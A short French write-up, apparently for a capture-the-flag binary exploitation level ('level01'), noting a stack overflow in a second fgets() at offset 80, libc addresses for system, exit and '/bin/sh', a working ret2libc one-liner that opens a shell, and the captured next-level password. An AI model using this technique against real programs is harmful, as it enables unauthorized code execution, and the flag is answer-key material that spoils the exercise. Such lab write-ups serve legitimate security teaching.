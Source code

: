 Username attendu: dat_wil
Pas de segfault possible dans le premier fgets().

Mot de passe attendu: admin
Mais dans tous les cas le programme nous dis non, il n'y a en realité aucune condition de "reussite".
Segfault possible dans le deuxieme fgets().

1er buffer: 0x804a040
2nd buffer: 0xffffd6bc

Segfault avec offset 80, modification du saved-eip possible


libc start: 0xf7e2c000
system: 0xf7e6aed0
exit: 0xf7e5eb70
/bin/sh: 0xf7f897ec


(python -c 'print "dat_wil"'; python -c 'print "A"*80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"'; cat) | ./level01

PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
